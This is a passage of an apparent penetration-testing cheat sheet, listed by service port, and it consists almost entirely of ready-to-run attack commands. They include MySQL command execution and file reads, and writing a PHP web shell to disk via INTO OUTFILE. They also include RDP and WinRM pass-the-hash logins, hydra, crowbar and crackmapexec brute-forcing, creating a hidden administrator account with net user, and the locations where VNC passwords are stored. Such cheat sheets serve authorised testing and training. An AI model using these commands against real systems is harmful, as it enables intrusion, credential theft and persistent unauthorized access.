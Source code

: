         show databases;
        use <DATABASES>;
        show tables;
        describe <TABLE>;
        select * from <TABLE>;
        # Try to execute code
        select do_system('id');
        \! sh
        # Read & Write
        select load_file('<FILE>');
        select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
    
## 3389 - RDP:
- Regular login:   `rdesktop [-d <DOMAIN>] -u <USERNAME> [-p <PASS>] <IP>  \\  xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP> +clipboard`
- PTH:  `xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>`
- Brute Force:  `crowbar -b rdp -s <IP>/CIDR [-u <USER>  \\  -U <USERLIST>] -C <PASSWORDS_LIST>  \\  hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV`
- Add RDP User:  `net user <user> <pass> /add; net localgroup "Administrators" <USER> /add; net localgroup "Remote Desktop Users" <USER> /add`
## 3690 - SVN Server:
        svn info svn://10.10.10.203
        svn list svn://10.10.10.203
        svn export svn://10.10.10.203/moved.txt
        svn export svn://10.10.10.203/dimension.worker.htb/,  svn checkout -r 1 svn://worker.htb,  svn checkout -r 2 svn://worker.htb
## 5800/5900/5901/58001 - VNC:
- Scan:  `nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>`
- Brute Force:  `hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV`
- Connect:  `vncviewer <IP>:<PORT>`
- Default Password Locations:
    - Linux: ~/.vnc/passwd
    - Windows:
    
            # RealVNC:  HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
            # TightVNC:  HKEY_CURRENT_USER\Software\TightVNC\Server
            # TigerVNC:  HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
            # UltraVNC:  C:\Program Files\UltraVNC\ultravnc.ini
## 5985/5986 - WINRM:
- Brute Force:  `crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>`
- Connect:  `evil-winrm -i <IP> -u <USER> -p <PASSWORD>  \\  evil-winrm -i <IP> -u <USER> -H <HASH>`
